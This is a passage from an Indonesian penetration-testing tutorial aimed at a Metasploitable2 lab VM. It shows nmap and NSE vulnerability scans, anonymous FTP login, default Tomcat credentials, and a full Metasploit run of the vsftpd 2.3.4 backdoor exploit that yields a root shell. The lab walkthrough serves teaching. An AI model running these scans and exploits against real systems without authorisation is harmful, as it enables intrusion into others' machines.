nmap -sV --version-intensity 2 192.168.1.22

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-12 20:57 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.0016s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  rpcbind
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.75 seconds
```

Selain memberi angka kita juga bisa menggunakan perintah secara langsung, gunakan perintah berikut untuk intensitas rendah

```bash
nmap -sV --version-light 192.168.1.22
```

perintah berikut untuk intensitas tinggi

```bash
nmap -sV --version-all 192.168.1.22
```

#### Agresive Scan

Kita dapat melakukan agresive scan dengan catatan scan akan lebih lama dan beresiko terdeksi jika mesin target terdapat detektor.

```bash
$ nmap -A 192.168.1.22

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-12 21:45 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.0089s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.1.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2024-12-12T12:57:03+00:00; -48m41s from scanner time.
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
53/tcp   open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      41978/udp   mountd
|   100005  1,2,3      58871/tcp   mountd
|   100021  1,3,4      43098/udp   nlockmgr
|   100021  1,3,4      49437/tcp   nlockmgr
|   100024  1          39234/tcp   status
|_  100024  1          42919/udp   status
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 14
|   Capabilities flags: 43564
|   Some Capabilities: Support41Auth, SupportsTransactions, ConnectWithDatabase, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, SupportsCompression, LongColumnFlag
|   Status: Autocommit
|_  Salt: 3OrqcxSvxvj2XE1axY46
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_ssl-date: 2024-12-12T12:57:03+00:00; -48m41s from scanner time.
5900/tcp open  vnc         VNC (protocol 3.3)
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
| irc-info: 
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.Metasploitable.LAN
|   version: Unreal3.2.8.1. irc.Metasploitable.LAN 
|   uptime: 0 days, 0:44:41
|   source ident: nmap
|   source host: 69A65CDA.78DED367.FFFA6D49.IP
|_  error: Closing Link: oxrouucwv[192.168.1.21] (Quit: oxrouucwv)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/5.5
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS: Linux

Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 26m21s, deviation: 2h30m01s, median: -48m41s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2024-12-12T07:56:59-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   8.88 ms 192.168.1.22 (192.168.1.22)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.09 seconds
```

#### Menentukan Port yang akan d scan

Contoh scan port  21

```bash
 nmap -sS -p 21 192.168.1.22
```

Scan lebih dari satu port

```bash
nmap -sS -p 21,22,80,100 192.168.1.22
```

Scan port dengan rentang port tertentu

```bash
nmap -sS -p 20-200 192.168.1.22
```

Scan semua nomor port

```bash
nmap -sS -p- 192.168.1.22
```

Scan 100 port yang sering digunakan

```bash
nmap -sS -F 192.168.1.22
```

Simpan ke dalam file tanpa menampilkan output

```bash
nmap -sS -F 192.168.1.22 >> scan-port.txt
```

Simpan ke dalam file dengan menampilkan output

```bash
nmap -sS -F -oN output-port.txt 192.168.1.22
```

## 4. Vulnerability Analysis

Vulnerability Analysis adalah proses melakukan analisis kerentanan suatu sistem. Secara garis besar ada 2 Vulnerability Analysis:

1. Known Vulnerability: Kerentanan yang sudah diketahui, dikenal, sudah didokumentasikan dan sudah memilikik identitas dan nama. Identitas dan nama ini dikenal dengan CVE (Common Vulnerabilities and Exposures) adalah sistem katalog celah kerentanan keamanan sistem informasi. Katalog CVE bisa dilihat di [https://cve.mitre.org/](https://cve.mitre.org/).
2. Unknown Vulnerability: Kerentanan yang belum diketahui.

### Vulnerability dengan Nmap

Untuk melakukan vurnerability scan dengan nmap kita akan menggunakan nmap script script yang berada di `usr/share/nmap/scripts`:

```bash
$ cd usr/share/nmap/scripts
```

File script semua berformat *.nse (nmap single script), selain itu ada juga yang dikenal dengan nmap group script yang bisa dilihat di [https://nmap.org/book/nse-usage.html](https://nmap.org/book/nse-usage.html). Jika single script, script berdiri sendiri dan group script berdasararkan kategori.

#### Single Script

Script nmap ada di dalam `usr/share/nmap/scripts`.

```bash
$ cd usr/share/nmap/scripts
```

Kita akan menggunakan script `ftp-anon.nse` untuk melakukan scanning anonymous login

```bash
$ nmap --script ftp-anon.nse 192.168.1.22 -sS 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 13:07 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.0091s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds
```

Hasil `Anonymous FTP login allowed`, login secara anonym diijinkan

```bash
$ ftp 192.168.1.22

Connected to 192.168.1.22.
220 (vsFTPd 2.3.4)
Name (192.168.1.22:ucup): Anonymous
331 Please specify the password.
Password: 123456
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

__Help__

Jika kita ingin mengetahui keterangan dari script nmap kita bisa menggunakan perintah (contoh: `http-wordpress-enum.nse`):

```bash
nmap --script-help http-wordpress-enum.nse 
```

#### Group Script

 Group script yang bisa dilihat di [https://nmap.org/book/nse-usage.html](https://nmap.org/book/nse-usage.html). Kita akan melakukan scanning kategori `auth` menggunakan script group dengan sync scan.

```bash
$ nmap --script auth 192.168.1.22 -sS

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 10:59 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.011s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
| ssh-publickey-acceptance: 
|_  Accepted Public Keys: No public keys accepted
23/tcp   open  telnet
25/tcp   open  smtp
| smtp-enum-users: 
|_  Couldn't find any accounts
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
|_mysql-empty-password: ERROR: Script execution failed (use -d to debug)
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown
| http-default-accounts: 
|   [Apache Tomcat] at /manager/html/
|     tomcat:tomcat
|   [Apache Tomcat Host Manager] at /host-manager/html/
|_    tomcat:tomcat
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)

Host script results:
| smb-enum-users: 
|_  Domain: METASPLOITABLE; Users: backup, bin, bind, daemon, dhcp, distccd, ftp, games, gnats, irc, klog, libuuid, list, lp, mail, man, msfadmin, mysql, news, nobody, postfix, postgres, proftpd, proxy, root, service, sshd, sync, sys, syslog, telnetd, tomcat55, user, uucp, www-data

Post-scan script results:
| creds-summary: 
|   192.168.1.22: 
|     8180/nil: 
|       tomcat:tomcat - Valid credentials
|_      tomcat:tomcat - Valid credentials
Nmap done: 1 IP address (1 host up) scanned in 30.76 seconds
```

Dari analisis di atas kita menemukan beberapa vurnerability yakni:
* `Anonymous FTP login allowed (FTP code 230)` 
* `mysql-empty-password`
* `tomcat:tomcat - Valid credentials`

Kita akan mencoba membuka browser untuk menguji server tomcat buka `192.168.1.22:8180`, pada menu tomcat administration klik dan masukan username `tomcat` dan password `tomcat` dan ternyata kita bisa masuk kedalam tomcat web server administration.

Selanjutnya kita akan mencoba mencoba sript group `malware` untuk mengetahui target terinfeksi malware atau backdoor.

```bash
$ sudo nmap --script malware 192.168.1.22 -sS

[sudo] password for ucup: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 12:43 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.0016s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  BID:48539  CVE:CVE-2011-2523
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root)
|     References:
|       http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2523
|       https://www.securityfocus.com/bid/48539
|_      https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again).
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

Dari hasil yang ada, ditemukan vulnerable atau terinfeksi malware/backdoor `ftp-vsftpd-backdoor` pada port 21 untuk `vsFTPd version 2.3.4 backdoor` dan sudah didokumentasikan dengan ID CVE: `CVE-2011-2523`, dan nmap berhasil menemukan user id ` Results: uid=0(root) gid=0(root)`. Dan pada port 6667 ditemukan potensi backdoor `6667/tcp open  irc |_irc-unrealircd-backdoor:`

Kita juga dapat mencari versi service melalui group script `banner`:

```bash
$ sudo nmap --script banner 192.168.1.22 -sS

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 12:53 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.0031s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
|_banner: 220 (vsFTPd 2.3.4)
22/tcp   open  ssh
|_banner: SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
23/tcp   open  telnet
|_banner: \xFF\xFD\x18\xFF\xFD \xFF\xFD#\xFF\xFD'
25/tcp   open  smtp
|_banner: 220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
|_banner: \x01Where are you?
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
|_banner: root@metasploitable:/#
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
|_banner: 220 ProFTPD 1.3.1 Server (Debian) [::ffff:192.168.1.22]
3306/tcp open  mysql
| banner: >\x00\x00\x00\x0A5.0.51a-3ubuntu5\x00#\x00\x00\x00M^p;sT+u\x00,
|_\xAA\x08\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00...
5432/tcp open  postgresql
5900/tcp open  vnc
|_banner: RFB 003.003
6000/tcp open  X11
6667/tcp open  irc
| banner: :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostna
|_me...\x0D\x0A:irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resol...
8009/tcp open  ajp13
8180/tcp open  unknown
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

#### Mencari Exploit 

Dari hasil di atas kita menemukan versi vsftp 2.3.4, dan kita bisa mencari exploit yang bisa kita gunakan dengan perintah:

```bash
$ searchsploit vsFTPd 2.3.4

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                                                                                                                                 | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                                                    | unix/remote/17491.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Kita juga dapat mencari exploit melalui pihak ketiga melalui internet, ketik di google `vsftpd 2.3.4 exploit` nanti akan diarahkan ke website exploit.

### Vurnerability Analysis dengan Nessus

Nessus adalah tools vurnerability analysis yang memiliki beberapa versi berbayar maupun yang gratis. Download Nessus versi essensial disini [https://www.tenable.com/products/nessus/nessus-essentials](https://www.tenable.com/products/nessus/nessus-essentials) untuk yang versi gratis.

Cara install nessus bisa dilihat [disini](https://www.youtube.com/watch?v=k5vUaH0Iepk) atau di [documentation](https://docs.tenable.com/nessus/Content/InstallNessusLinux.htm) resmi.

Setelah terinstall kita perlu menjalankan service nessus

```bash
sudo /bin/systemctl start nessusd.service
```

Kemudian buka browser dengan link `https://ip-address:8834/`

Berikut tampilan nessus dengan hasil scanning vurnerability analysis dari metasploitable dengan ip 192.168.1.22.





## 5. Exploitation

Tool exploitation yang digunakan pada tutorial ini kita akan menggunakan framework metasploit. Lokasi direktori metasploit berada di `/usr/share/metasploit-framework`.
Untuk module metasploit berada di direktori `modules`

### Exploit vsftpd

Scan target:

```bash
$ nmap -sS -sV 192.168.1.22

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 22:42 +08
Nmap scan report for 192.168.1.22 (192.168.1.22)
Host is up (0.0015s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 08:00:27:27:B4:9C (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.66 seconds
```

Dari hasil scan ditemukan port 21 terbuka untuk service ftp `vsftpd 2.3.4`. Kita cari exploitnya:

```bash
$ searchsploit vsftpd 2.3.4         

----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                              | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                 | unix/remote/17491.rb
----------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Dari hasil di atas ditemukan 2 exploit yaitu `unix/remote/49757.py` dan `unix/remote/17491.rb` yang berasal dari Metasploit. Masuk kedalam `msconsole`

```bash
$ sudo msfconsole 

[sudo] password for ucup: 

Metasploit tip: Start commands with a space to avoid saving them to history
                                                  

     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`


                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================
=====================+--------------------------------+=========================
================================================================================

                     Press ENTER to size up the situation

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

                        Press SPACE BAR to continue


       =[ metasploit v6.4.38-dev                          ]
+ -- --=[ 2466 exploits - 1273 auxiliary - 393 post       ]
+ -- --=[ 1475 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > 
```

Mencari exploit vsftpd 2.3.4

```bash
msf6 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

Menggunakan exploit bisa dengan perintah `use exploit/unix/ftp/vsftpd_234_backdoor` atau `use 0`.


```bash
msf6 > use 0

[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

Melihat informasi ketik `show info`:

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the       VSFTPD download
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```

Dari data yang muncul ip address host target pada bagian `RHOSTS` masih kosong. Kita masukan data ip address target dengan perintah `set RHOSTS xxx.xxx.xxx.xxx`

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.1.22
RHOSTS => 192.168.1.22
```

cek options untuk melihat konfigurasi jalankan `show options`

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.1.22     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.
```

Untuk mulai exploit jalankan perintah `exploit` atau `run`.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.22:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.22:21 - USER: 331 Please specify the password.
[+] 192.168.1.22:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.22:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.21:46569 -> 192.168.1.22:6200) at 2024-12-14 23:05:14 +0800
```

Bannggg!!!! kita sudah berada dalam shell target untuk mengujinya ketik `ifconfig` untuk mengetahui ip addressnya.

```bash
ifconfig

eth0      Link encap:Ethernet  HWaddr 08:00:27:27:b4:9c  
          inet addr:192.168.1.22  Bcast:192.168.1.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe27:b49c/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2557 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2400 errors:0 dropped:0 overruns:0 carrier:0
